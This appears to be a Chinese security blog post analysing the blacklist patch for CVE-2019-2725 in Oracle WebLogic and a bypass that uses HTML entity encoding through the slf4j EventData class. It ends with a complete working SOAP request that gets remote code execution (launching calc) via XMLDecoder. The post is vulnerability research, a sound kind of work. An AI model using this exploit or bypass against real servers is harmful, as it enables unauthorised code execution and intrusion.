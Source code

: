 > 原文链接: https://www.anquanke.com//post/id/226358 


# CVE-2019-2725高版本POC拓展


                                阅读量   
                                **141627**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">2</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p2.ssl.qhimg.com/t015401aaf7b7b3b11b.png)](https://p2.ssl.qhimg.com/t015401aaf7b7b3b11b.png)



## 0x00 前言

在对大佬们高版本的POC进行分析后，我把重点放在了如何绕过黑名单限制上，那么利用XML可以解析的其它编码格式尝试一下绕过。



## 0x01 补丁回顾

首先回顾一下这个经典的补丁截图，摘自：

[http://www.sd.edu.cn/info/1011/1131.htm](http://www.sd.edu.cn/info/1011/1131.htm)

[![](https://p5.ssl.qhimg.com/t01774303afd2e788bf.jpg)](https://p5.ssl.qhimg.com/t01774303afd2e788bf.jpg)

[![](https://p4.ssl.qhimg.com/t016c099ce75cfa88ef.jpg)](https://p4.ssl.qhimg.com/t016c099ce75cfa88ef.jpg)

可以看到对object、new、method关键字做了限制，而且对于array数组的长度也做了限制，不得大于10000。



## 0x02 高版本POC分析

现在网上也公开了12.1.3版本的POC，利用org.slf4j.ext.EventData类进行反序列化操作，这个类的构造方法如下：

[![](https://p3.ssl.qhimg.com/t01ac6faa39ea9df1ab.jpg)](https://p3.ssl.qhimg.com/t01ac6faa39ea9df1ab.jpg)

可以看到这个类需要接收一个XML的字符串，那么POC构造如下：

[![](https://p5.ssl.qhimg.com/t010fc387aca5660b90.jpg)](https://p5.ssl.qhimg.com/t010fc387aca5660b90.jpg)

那前面也看到了补丁限制了一些关键字，而需要解析的XML恰好含有这些关键字，绕过的思路就是整个的XML字段真的当作一个字符串传入，CDATA包含的字符串正好可以作为XML文本去解析。



## 0x03 绕过思路扩展

说到这里大家可能就明白了，只要是XML能够解析的编码格式都可以一试，此时想起了前不久看到的《WAF Bypass之xerces解析》，这篇文章对XML的解析格式进行了分析，其中一种简便快捷的方式就是HTML实体编码，欸，讨巧了，直接尝试将org.slf4j.ext.EventData类的构造参数用实体编码传入试一下：

[![](https://p3.ssl.qhimg.com/t01b732a365e8650f81.jpg)](https://p3.ssl.qhimg.com/t01b732a365e8650f81.jpg)

很快啊，计算器啪地一下就弹出来了

[![](https://p1.ssl.qhimg.com/t0109201206cc63ce48.png)](https://p1.ssl.qhimg.com/t0109201206cc63ce48.png)

POC如下：

```
POST /_async/AsyncResponseService HTTP/1.1
Host: 192.168.188.130:7001
Accept-Encoding: gzip, deflate
SOAPAction:
Accept: /
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)
Connection: keep-alive
content-type: text/xml
Content-Length: 1946

&lt;soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService"&gt; &lt;soapenv:Header&gt; &lt;wsa:Action&gt;xx&lt;/wsa:Action&gt;&lt;wsa:RelatesTo&gt;xx&lt;/wsa:RelatesTo&gt; &lt;work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"&gt;

&lt;java&gt;&lt;class&gt;&lt;string&gt;org.slf4j.ext.EventData&lt;/string&gt;&lt;void&gt;&lt;string&gt;&lt;java version="1.8.0_131" class="java.beans.XMLDecoder"&gt;&lt;object class="java.lang.ProcessBuilder"&gt;&lt;array class="java.lang.String" length="1"&gt;&lt;void index="0"&gt;&lt;string&gt;calc&lt;/string&gt;&lt;/void&gt;&lt;/array&gt;&lt;void method="start" /&gt;&lt;/object&gt;&lt;/java&gt;&lt;/string&gt;
&lt;/void&gt;&lt;/class&gt;
&lt;/java&gt;
&lt;/work:WorkContext&gt;
&lt;/soapenv:Header&gt; &lt;soapenv:Body&gt;&lt;asy:onAsyncDelivery/&gt;&lt;/soapenv:Body&gt;&lt;/soapenv:Envelope&gt;
```



## 0x04 总结

应该还有其它的编码绕过，希望有时间去搞吧。



## 参考链接

[https://blog.csdn.net/weixin_30408739/article/details/99877655](https://blog.csdn.net/weixin_30408739/article/details/99877655)<br>[https://xz.aliyun.com/t/7116](https://xz.aliyun.com/t/7116)<br>[https://www.anquanke.com/post/id/209826](https://www.anquanke.com/post/id/209826)<br>[http://www.sd.edu.cn/info/1011/1131.htm](http://www.sd.edu.cn/info/1011/1131.htm)
